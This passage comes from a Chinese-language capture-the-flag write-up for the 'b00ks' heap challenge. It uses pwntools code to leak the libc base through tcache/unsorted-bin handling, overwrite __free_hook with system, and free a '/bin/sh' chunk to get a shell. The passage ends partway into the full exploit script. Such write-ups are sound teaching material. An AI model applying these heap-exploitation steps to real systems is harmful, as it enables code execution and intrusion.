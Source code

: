 但是我们本地调试环境是 `libc 2.28`，在 `2.26` 之后 `glibc` 引入了 `tcache` 机制，我们需要先释放 7 个 `chunk` 填充 `tcache` 垃圾箱，从第八个开始才会进入 `unsorted bins`。代码如下：

```python
        # todo: leak libc address via unsorted bin address
        for i in range(4):
            self.create(0x100, "F" * 0x100, 0x100, "G" * 0x100)  # 3,4,5,6
        for i in range(4):
            self.delete(i + 3)  # 3,4,5,6
        libcbase = self.read_from(library0 + 0x8c0) - 0x1bbca0
        print "leak libc base address: %s" % hex(libcbase)
```

#### write `__free_hook`

在 `libc` 的 `free` 函数执行之前，会检查一个地址中是否存在函数。如果存在则传入目标地址并且执行它，这个地址叫做 `__free_hook`，我们可以将这个地址指向 `system` 函数，触发释放就可以得到 `shell`。

为了执行 `system("/bin/sh")`，我们需要执行以下的两步操作：

1. 将 `/bin/sh` 字符串写入需要释放的内存区域中；
2. 将 `__free_hook` 对应的地址指向 `system` 函数。

```python
        # todo:
        #   1. write "/bin/sh" to library[2] name
        #   2. replace `__free_hook` as `system`
        bin_sh_addr = libcbase + next(self.libc.search("/bin/sh"))
        free_hook_addr = libcbase + self.libc.symbols["__free_hook"]
        system_addr = libcbase + self.libc.symbols["system"]
        print "'/bin/sh' address: %x" % bin_sh_addr
        print "_free_hook address: %x" % free_hook_addr
        print "system address: %x" % system_addr
        self.create(0x20, "/bin/sh", 0x20, "/bin/sh")  # 7
        self.write_to(free_hook_addr, p64(system_addr))
```

#### get_shell

最后就可以触发释放函数拿到主机 shell：

```python
        # todo: get shell
        self.p.sendline("2")
        self.p.sendlineafter("Enter the book id you want to delete: ", "7")
        self.p.interactive()
```

### 脚本

完整的 `exp.py` 如下：

```python
#!/usr/bin/env python2
# coding=utf-8
from pwn import *


class Challenge:
    def __init__(self, local=True):
        self.local = local
        self.p = process(["./b00ks"])
        self.libc = ELF("/lib/x86_64-linux-gnu/libc-2.28.so")
        self.library_detail = []

    def gdb(self, script):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0], gdbscript=script)
```
